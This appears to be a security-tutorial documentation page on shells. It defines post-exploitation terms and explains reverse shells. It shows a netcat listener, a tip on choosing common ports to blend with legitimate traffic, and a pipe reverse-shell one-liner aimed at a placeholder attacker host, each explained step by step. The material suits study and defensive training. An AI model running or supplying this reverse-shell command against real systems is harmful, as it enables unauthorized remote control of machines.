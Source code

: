 ```yaml
---
title: Shells
sidebar_position: 3
description: Different types of shells.
---
```


## Introduction
- Shell is a software to interact with the OS.
- Different terms used after obtaining a shell are
    - **Remote system control:** Executing commands remotely through the shell.
    - **Privilege escalation:** Escalating the privileges to more elevated or admin access.
    - **Data exfiltration:** Using the obtained shell to read sensitive data.
    - **Persistence and maintenance access:** Maintaining the access for later use.
    - **Post exploitation activities:** Actions performed after exploitation such as deploying malware, deleting information, creating hidden accounts, etc.
    - **Pivoting:** Accessing other systems on the network using the compromised.

## Reverse Shell
- Initiates connection from the target machine to an attacker's machine.
- Also known as connect back shell.

## How Reverse Shells Work?

### Setup Netcat Listener
```
nc -lvnp 443
```
- `-l` - Indicates netcat to listen for the connection.
- `-v` - Enables verbose mode.
- `-n` - Prevents connections from using DNS for lookup and forces to use IP address.
- `-p` - Port to be used.
- Use known ports such as 53, 80, 8080, 443, 139, or 445 to blend with legitimate traffic.

### Gaining Reverse Shell Access
- After setting the listener, the attacker executes a reverse shell payload which uses a vulnerability to expose a shell through network.
- One such reverse shell is pipe reverse shell.
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```
- `rm -f /tmp/f` - Removes existing named pipe file to create a new named pipe file without conflicts.
- `mkfifo /tmp/f` - Creates a named pipe or first in first out at /tmp/f which allows two way communication between processes.
- `cat /tmp/f` - Reads data from the names pipe.
- `| bash -i 2>&1` - Pipes the data to a bash shell which allows the attacker to execute commands interactively. 2>&1 redirects standard error to standard output.
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` - Pipes the shell's output to netcat instance running on attacker's machine.
- `>/tmp/f` - Sends the output of the commands to named pipe allowing bidirectional data transfer.
